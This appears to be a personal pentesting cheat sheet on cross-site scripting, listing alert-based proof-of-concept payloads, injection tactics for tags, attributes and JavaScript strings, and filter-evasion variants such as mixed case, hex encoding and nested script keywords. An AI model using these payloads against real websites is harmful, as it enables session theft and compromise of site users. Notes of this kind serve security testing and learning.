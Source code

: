 ```yaml
---
layout: page
title:  "Cross Site Scripting (XSS)"
permalink: "xss.html"
tags: [security, web]
summary: ""
---
```

## Introduction
* Standard poc atttack string: `"><script>alert(document.cookie)</script>"`


## Strategy
* Test every entrypoint and find where these inputs (chosen so that they shouldn't be filtered) are displayed back to the user
* Sanitized/decoded/modified input can still be enough for exploitation

## Tactics
* Chack the page source code, not only the page rendered by the browser
* URL encode payload ?
* Remain within a tag using `onload` attribute: `" onload=alert()`
* If input returned inside a JS quoted string, ensure injected payload valid. Can comment the remainder using `//`
* Attribute containing an url: `javascript:alert()`
* Invalid image name: `#" onclick="javascript:alert()`

## Filters evading
### script filters
* Add space: `"><script >alert(document.cookie)</script >"`
* Change case: `"><ScRiPt>alert(document.cookie)</ScRiPt>"`
* Hex encoding: `"%3e%3cscript%3ealert(document.cookie)%3c/script%3e"`
* Double `script` keyword: `"><scr<script>ipt>alert(document.cookie)</scr</script>ipt>"`
